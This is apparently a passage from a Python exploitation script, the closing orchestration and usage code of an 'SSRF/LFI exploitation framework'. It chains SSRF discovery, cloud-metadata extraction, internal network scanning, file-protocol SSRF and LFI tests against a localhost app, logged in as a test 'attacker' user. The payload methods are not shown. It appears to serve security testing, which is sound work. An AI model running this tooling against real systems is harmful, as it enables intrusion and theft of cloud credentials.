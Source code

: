 ```python
        }
        
        # Step 1: Discover SSRF endpoints
        ssrf_endpoints = self.discover_ssrf_endpoints()
        results['ssrf_discovery'] = ssrf_endpoints
        
        if ssrf_endpoints:
            # Use first confirmed SSRF endpoint for further testing
            primary_ssrf = ssrf_endpoints[0]
            
            # Step 2: Exploit cloud metadata
            metadata_results = self.exploit_cloud_metadata(primary_ssrf)
            results['cloud_metadata'] = metadata_results
            
            # Step 3: Scan internal network
            network_scan_results = self.scan_internal_network(primary_ssrf)
            results['internal_network_scan'] = network_scan_results
            
            # Step 4: Test file protocol SSRF
            file_protocol_results = self.test_ssrf_via_file_protocol(primary_ssrf)
            results['file_protocol_ssrf'] = file_protocol_results
        
        # Step 5: Test LFI vulnerabilities
        lfi_results = self.test_lfi_vulnerabilities()
        results['lfi_vulnerabilities'] = lfi_results
        
        return results

# Usage example
if __name__ == "__main__":
    BASE_URL = "http://localhost:3000"
    
    # Get authentication token
    def get_auth_token(base_url, email, password):
        login_data = {"email": email, "password": password}
        response = requests.post(f"{base_url}/api/auth/login", json=login_data)
        return response.json().get('token') if response.status_code == 200 else None
    
    token = get_auth_token(BASE_URL, "attacker@test.com", "password123")
    
    if token:
        # Initialize SSRF/LFI framework
        ssrf_lfi_framework = SSRFLFIExploitationFramework(BASE_URL, token)
        
        # Perform comprehensive testing
        results = ssrf_lfi_framework.comprehensive_ssrf_lfi_test()
        
        # Save results
        with open('ssrf_lfi_exploitation_results.json', 'w') as f:
            json.dump(results, f, indent=2, default=str)
        
        print(f"\n=== SSRF and LFI Testing Complete ===")
        print(f"SSRF endpoints found: {len(results['ssrf_discovery'])}")
        print(f"Cloud metadata accessed: {sum(len(v) for v in results['cloud_metadata'].values())}")
        print(f"Internal services found: {len(results['internal_network_scan'])}")
        print(f"LFI vulnerabilities: {len(results['lfi_vulnerabilities'])}")
        print(f"File protocol SSRF: {len(results['file_protocol_ssrf'])}")
        print(f"Results saved to ssrf_lfi_exploitation_results.json")
    else:
        print("Authentication failed")
```
